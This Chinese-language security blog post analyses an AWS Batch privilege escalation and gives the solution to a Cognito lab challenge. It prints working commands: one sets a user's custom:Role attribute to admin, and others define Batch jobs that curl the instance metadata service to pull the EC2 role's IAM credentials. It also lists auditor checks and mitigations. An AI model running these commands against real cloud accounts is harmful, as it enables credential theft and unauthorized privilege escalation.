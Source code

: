 ```yaml
---
date: 2025-08-03T01:56:38+08:00
title: 探索AWS Batch权限提升漏洞的技术分析
tags: [AWS, 权限提升, 云计算安全]
authors: qife
description: 本文详细分析了AWS Batch服务中由于EC2计算环境配置不当导致的权限提升漏洞，探讨了攻击者如何利用容器元数据服务和实例元数据服务获取高权限凭证的技术细节，并提供了防御建议。
---
```


### 从上一期说起...您解决CloudSecTidbit第2期的IaC实验了吗？
[解决方案]
AWS Cognito挑战的核心是通过权限提升获取管理员权限并读取内部用户列表。应用程序使用AWS Cognito颁发的会话令牌（保存为名为`aws-cognito-app-access-token`的cookie），攻击者可以通过以下步骤实现提权：

```bash
aws cognito-idp get-user --region us-east-1 --access-token <USER_ACCESS_TOKEN>
aws --region us-east-1 cognito-idp update-user-attributes --user-attributes "Name=custom:Role,Value=admin" --access-token <USER_ACCESS_TOKEN>
```

漏洞根源在于平台过度信任`custom:Role`属性进行授权判断。

### 技术聚焦：AWS Batch权限提升研究
#### AWS Batch基础架构
AWS Batch是AWS提供的批处理计算服务，主要组件包括：
- **Jobs**：工作单元（脚本/可执行文件/容器镜像）
- **Job definitions**：任务蓝图（含IAM角色、资源需求等配置）
- **Job Queues**：任务调度队列
- **Compute environments**：计算资源环境（支持Fargate/EC2/EKS三种编排类型）


#### 漏洞场景分析
在多租户平台中发现高危配置：
1. 所有租户任务均使用EC2编排类型运行
2. 计算环境EC2实例需要高权限角色管理EFS等资源
3. 任务容器具有`batch:RegisterJobDefinition`和`batch:SubmitJob`权限

#### 攻击链分解
1. **初始访问**：通过容器元数据服务（CMDS@169.254.170.2）获取任务执行角色凭证
2. **权限滥用**：利用获得的凭证创建恶意任务定义
3. **网络配置突破**：由于EC2环境默认使用主机网络模式，容器可访问实例元数据服务（IMDSv2）
4. **凭证窃取**：通过IMDS获取EC2实例的高权限角色凭证

#### 技术验证过程
**步骤1 - 获取实例角色名**：
```bash
aws batch register-job-definition \
  --job-definition-name poc-get-rolename \
  --type container \
  --container-properties '{
    "image": "curlimages/curl",
    "command": ["sh","-c","TOKEN=`curl -X PUT http://169.254.169.254/latest/api/token -H X-aws-ec2-metadata-token-ttl-seconds:21600`; curl -H X-aws-ec2-metadata-token:$TOKEN http://169.254.169.254/latest/meta-data/iam/security-credentials/"]
  }'
```

**步骤2 - 获取角色凭证**：
```bash
aws batch register-job-definition \
  --job-definition-name poc-get-aimcreds \
  --type container \
  --container-properties '{
    "image": "curlimages/curl",
    "command": ["sh","-c","TOKEN=`curl -X PUT http://169.254.169.254/latest/api/token -H X-aws-ec2-metadata-token-ttl-seconds:21600`; curl -H X-aws-ec2-metadata-token:$TOKEN http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME"]
  }'
```

#### 安全建议
**审计人员检查清单**：
- 确认任务执行上下文是否限制IMDS访问
- 审查EC2编排环境中的实例角色权限
- 检查是否过度分配`RegisterJobDefinition/SubmitJob`权限

**开发者防护措施**：
1. 网络层限制IMDS访问（通过`aws ec2 modify-instance-metadata-options`）
2. 遵循最小权限原则配置任务角色
3. 考虑使用Fargate替代EC2编排类型

### 实践资源
漏洞复现环境已开源：[CloudSecTidbits实验室](https://github.com/doyensec/cloudsec-tidbits/)

#### 延伸阅读
- [AWS Batch官方文档](https://docs.aws.amazon.com/batch/latest/userguide/what-is-batch.html)
- [容器工作负载中的元数据服务安全](https://blog.doyensec.com/2023/03/13/aws-metadata-service-container-security.html)